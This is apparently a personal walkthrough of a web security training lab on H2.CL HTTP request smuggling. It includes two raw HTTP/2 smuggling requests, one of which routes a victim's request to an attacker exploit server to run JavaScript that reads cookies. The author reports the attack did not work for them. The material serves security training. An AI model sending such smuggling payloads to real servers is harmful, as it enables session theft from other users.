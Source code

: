 Title: H2.CL request smuggling
Level: PRACTITIONER
Desc:  This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds. 

# Walkthroug:
First request to try:
```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

SMUGGLED
```
Every second request should give 404, but it was not working in my case.

Final request to send:
```
POST / HTTP/2
Host: 0a0500f1030a2f91814608c600510093.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a6f00f603992f588173073601b2003d.exploit-server.net
Content-Length: 5

x=1
```
Accessing /resources you get redirection to HOST+PATH, so sending upper request will cause browser to ask for: https://exploit-0a6f00f603992f588173073601b2003d.exploit-server.net/resources


It was not working in my case. 
